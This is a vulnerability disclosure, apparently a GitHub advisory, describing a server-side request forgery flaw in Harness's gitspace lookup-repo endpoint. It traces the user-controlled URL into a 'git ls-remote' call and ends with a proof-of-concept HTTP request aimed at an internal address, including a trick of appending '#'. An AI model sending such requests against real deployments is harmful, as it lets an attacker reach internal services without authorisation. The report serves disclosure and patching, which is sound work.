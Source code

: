 # Vendor

harness

# Product

harness

# version

v2025.1000.4050

# Download 

https://github.com/harness/harness

# Vulnerability

SSRF

# Description

The root cause is that the back-end code receives a user-controllable URL parameter and, without performing strict security validation, directly uses this URL to initiate a network request on behalf of the server itself.

# Analysis

Endpoint: `POST /api/v1/gitspaces/lookup-repo`

Vulnerable Parameter: The `url` field in the JSON request body.

Code Path:

  The `LookupRepo` function in `app/api/controller/gitspace/lookup_repo.go` receives the user-provided `url`.

  It calls `sanitizeLookupRepoInput` which performs basic URL parsing and scheme validation (ensuring `http` or `https` is present). However, this sanitization is insufficient to prevent SSRF or command injection.

  The `url` is then passed to `c.scm.CheckValidCodeRepo` in `app/gitspace/scm/scm.go`.

  `CheckValidCodeRepo` calls `s.detectBranch`, which in turn calls `detectDefaultGitBranch`.

  The `detectDefaultGitBranch` function constructs and executes a `git ls-remote` command, passing the user-controlled `repoURL` (which is the `url` from the request) directly as an argument:

    ```
    cmd := command.New("ls-remote",
        command.WithFlag("--symref"),
        command.WithFlag("-q"),
        command.WithArg(gitRepoDir), // gitRepoDir is the user-provided URL
        command.WithArg("HEAD"),
    )
    if err := cmd.Run(ctx, command.WithStdout(output)); err != nil {
        // ...
    }
    ```


Vulnerability Verification:

We need to add '#' after the internal address we want to request to avoid its own parameters affecting our request

<img width="979" height="376" alt="image" src="https://github.com/user-attachments/assets/a369a8a0-c989-4104-8710-8a23397639db" />


# POC
```
POST /api/v1/gitspaces/lookup-repo HTTP/1.1
Host: 192.168.43.165:3000
Cookie: token=XXX
Connection: close
Content-Length: 68

{"space_ref":"a","url":"http://192.168.43.165:9877/123.php?id=111#"}

```





